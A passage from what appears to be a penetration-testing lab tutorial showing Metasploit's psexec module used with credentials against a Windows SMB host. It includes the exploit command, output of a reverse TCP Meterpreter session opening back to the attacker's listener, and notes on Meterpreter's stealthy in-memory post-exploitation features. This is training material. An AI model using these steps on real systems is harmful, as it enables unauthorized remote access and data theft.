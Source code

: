 **Configuration Breakdown:**
- **RHOSTS**: Target IP address(es)
- **SHARE**: Administrative share (ADMIN$, C$, etc.)
- **SMBPass**: Password for authentication
- **SMBUser**: Username for authentication
- **LHOST**: Local host IP for reverse connection

### Step 7: Executing the Exploit

```bash
msf6 exploit(windows/smb/psexec) > exploit
```

**Execution Output:**
```
[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

**Process Breakdown:**
1. **Handler Started**: Reverse TCP handler listening on LHOST:LPORT
2. **Connection**: Connecting to target SMB service
3. **Authentication**: Authenticating with provided credentials
4. **Target Selection**: Selecting PowerShell target
5. **Payload Execution**: Executing the payload on target
6. **Stage Transfer**: Sending Meterpreter stage to target
7. **Session Establishment**: Meterpreter session opened

## Understanding Meterpreter

### What is Meterpreter?

Meterpreter is an advanced payload that:
- Uses in-memory DLL injection
- Establishes stealthy communication channel
- Provides extensive post-exploitation capabilities
- Operates entirely in memory (difficult to detect)

### Key Capabilities

**File Operations:**
- Upload/download files
- File system navigation
- File manipulation

